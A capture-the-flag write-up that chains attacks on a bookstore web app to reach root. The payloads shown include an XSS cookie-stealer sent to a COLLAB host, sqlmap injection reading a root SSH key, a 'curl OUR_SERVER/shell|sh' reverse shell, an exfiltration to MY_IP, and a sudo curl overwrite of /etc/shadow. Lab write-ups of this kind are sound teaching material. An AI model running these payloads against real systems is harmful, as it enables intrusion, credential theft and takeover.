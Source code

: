 In this challenge by John Hammond we are presented with a web site where we can browse book by category, author, and so on.

![[Screenshot 2024-04-05 alle 08.49.57.png]]![[Screenshot 2024-04-05 alle 08.50.03.png]]

We also have a login form but registration is not active at the moment.

![[Screenshot 2024-04-05 alle 08.51.15.png]]

Basic tampering with login form does not reveal anything, so we start with basic recon using tools like `gobuster`. 

```
/authors              (Status: 200) [Size: 3773]
/categories           (Status: 200) [Size: 7751]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 3332]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 3179]
/sitemap.xml          (Status: 200) [Size: 915]
```

We observe that we can browse

 - by category `/categories/38940c5d-6332-4328-84b3-2acef194cb8b`
 - by book inside a given category: `/categories/38940c5d-6332-4328-84b3-2acef194cb8b/books/1`

Looking at `/sitemap.xml` we notice eight categories, while in home page we only had seven. If we try to access the "hidden" category `/categories/2d340d76-cc36-4554-9d40-577e164603dd` we get an error message:

```json
{
  "error" : "Sorry, these items are not available in your region. This area is only accessible by local staff or specific geographic locations."
}
```

We can bypass this restriction adding an `X-Forwarded-For: 127.0.0.1` header.

![[Screenshot 2024-04-05 alle 09.18.49.png]]

Moreover, we can edit books with id 7 and 8:

![[Screenshot 2024-04-05 alle 09.19.55.png]]

With this edit functionality we have a classic XXE vulnerability (that can give us /etc/hosts) and a SSRF in the `coverImageUrl` parameter.

By looking at `/etc/hosts` with the XXE vulnerability we discover an api host. We can do some recon there and we discover (using the SSRF)  the `http://api/swagger.json`.
A careful study of the api functionality highlights the following endpoint.

```
/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review
```

So maybe we can edit a book and trigger some bot action if we submit that book for review.

The plot now is:

1. edit book id 7 inserting a XSS parameter:

```xml
<book>
    <title>Test Book A</title>
    <author>Alan Turing</author>
    <description>&lt;img src=x onerror="this.src='//COLLAB/?'+btoa(document.cookie); this.removeAttribute('onerror');"&gt;</description>
    <price>1.0</price>
    <publishDate>2024-02-29</publishDate>
    <coverImageUrl>http://example.com/cover7.jpg</coverImageUrl>
</book>
```

2. edit book id 8 asking for review of book id 7:
   
```xml
   <coverImageUrl>http://api/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review</coverImageUrl>
```


Our collaborator receives a GET request with session cookies:
```
GET /?c2Vzc2l... HTTP/1.1
```

With this cookie we have access to the book store dashboard

![[Screenshot 2024-04-05 alle 09.27.23.png]]

where we see two functionalities: edit book, and apparently run commands on the db server (but we need an SSH private key which we do not have).

We probably have a SQL injection with requests like:

```
POST /add-book HTTP/1.1
title=1&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05"

{"error":"Error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"2024-04-05\"\",TRUE)' at line 1"}
```

Easiest way to proceed is saving a complete HTTP request to `/add-book` endpoint and run a `sqlmap -r --batch`:

```
sqlmap identified the following injection point(s) with a total of 640 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)
    Payload: title=1" AND ELT(4932=4932,9451) AND "Wduy"="Wduy&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: title=1" AND GTID_SUBSET(CONCAT(0x717a7a6b71,(SELECT (ELT(1936=1936,1))),0x7171627a71),1936) AND "jhTF"="jhTF&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1" AND (SELECT 9182 FROM (SELECT(SLEEP(5)))unLE) AND "Wdxu"="Wdxu&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05
```

Armed with this knowledge we get db container root ssh key: `sqlmap -r req.txt  --batch --file-read /root/.ssh/id_rsa` and we can get a reverse shell on it: 

```
POST /database-debug HTTP/1.1
...
ssh_private_key=-----BEGIN+OPENSSH+PRIVATE+KEY-----...&command=id


{"message":"Command ran successfully, output: b'uid=0(root) gid=0(root) groups=0(root)\\n'"}
```

Here we get an api admin token:

```bash
root@db:~# cat .api_admin_token.txt
JVU...
```

Now for simplicity we download a static curl binary on db container and we attack the `/other/debug-exec` endpoint on api container:

```bash
wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64
chmod +x curl-amd64

./curl-amd64 -H 'Content-Type: application/json' --data '{"command":"curl OUR_SERVER:8000/shell|sh","admin_token":"JVU..."}' http://api/other/debug-exec
```


Once we have a reverse shell on api container we look at `.bash_history` where we get ssh password for accessing the main www container

```bash
root@api:~# cat .bash_history
ls
whoami
ls
cd /tmp
pwd
sshpass -p ****** ssh www-admin@www
cd
date
ls
```

We now have a couple of options:

```
www-admin@www:~$ ps -edaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:48 ?        00:00:00 /bin/sh -c service ssh start && .echo "; use 'www', 'api',
root           7       1  0 06:48 ?        00:00:00 su www-admin -c python3 -m flask run --host=0.0.0.0 --port
root           8       1  0 06:48 ?        00:00:01 python3 -m http.server --bind 127.0.0.1 80
www-adm+      15       7  1 06:48 ?        00:01:04 python3 -m flask run --host=0.0.0.0 --port=5000
root          18       1  0 06:48 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        6844      18  0 07:58 ?        00:00:00 sshd: www-admin [priv]
www-adm+    6851    6844  0 07:58 ?        00:00:00 sshd: www-admin@pts/0
www-adm+    6852    6851  0 07:58 pts/0    00:00:00 -bash
www-adm+    6859    6852  0 07:59 pts/0    00:00:00 ps -edaf


www-admin@www:~$ sudo -l
[sudo] password for www-admin:
Matching Defaults entries for www-admin on www:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-admin may run the following commands on www:
    (ALL) /usr/bin/curl 127.0.0.1/*
```

1. we have a web server running as root listening on `127.0.0.1:80`. The document root is `/app`, where we have write permissions, so we can simply link /root/flag.txt and grab the flag:
```bash
cd /app
ln -s /root/flag.txt
curl 127.0.0.1/flag.txt
```

2. we can leverage curl to exfiltrate the root flag with a command like:
   `sudo curl 127.0.0.1/=@/root/flag.txt -F data=@/root/flag.txt MY_IP:8000`

3.  we can use curl to overwrite `/etc/shadow` and get a shell as root:
```bash
cd /app
ln -s /etc/shadow
curl 127.0.0.1/shadow -o pwn
sed -i -e 's/\*//' pwn
sudo curl 127.0.0.1/pwn -o /etc/shadow
su -
root@www:~# id
uid=0(root) gid=0(root) groups=0(root)
```

![[Screenshot 2024-04-04 alle 22.37.16.png]]